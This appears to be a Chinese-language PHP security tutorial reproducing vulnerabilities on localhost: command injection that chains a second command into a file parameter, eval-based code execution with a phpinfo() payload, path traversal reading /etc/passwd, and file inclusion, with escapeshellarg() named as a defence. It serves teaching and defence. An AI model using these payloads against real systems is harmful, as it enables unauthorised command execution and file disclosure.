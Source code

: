 查看当前文件夹目录

```
http://localhost/command.php?file=.
```

执行的命令：`ls .`

命令注入

```
http://localhost/command.php?file=.%20%26%26%20echo 111 %3E testcommand.txt
```

%20%26%26%20：URL编码➡️ ` && ` 

执行的命令：`ls . && echo 111 > testcommand.txt`

### 防御

`escapeshellarg()`函数对参数进行转义

## 代码执行漏洞

### 复现

`eval()` 函数把字符串按照 PHP 代码来计算

```
http://localhost/runcodetest.php?cmd=phpinfo();
```

`create_function()`

```
http://localhost/runcodetest.php?cmd=phpinfo();
```

## 任意文件读取漏洞

### 复现

在文件下载操作中，文件名及路径由客户端传入的参数控制，并且未进行有效的过滤，导致用户可恶意下载任意文 件。

> file_get_contents() 把整个文件读入一个字符串中。该函数是用于把文件的内容读入到一个字符串中的首选方法。

```
http://localhost/filedownload.php?file=../../../../../../etc/passwd
```

由于没有对参数过滤，可以通过`../`形式进行跳转，从而读到敏感文件。

## 任意文件包含漏洞

### 复现

```
http://localhost/fileinclude.php?file=testfileinclude.php
```
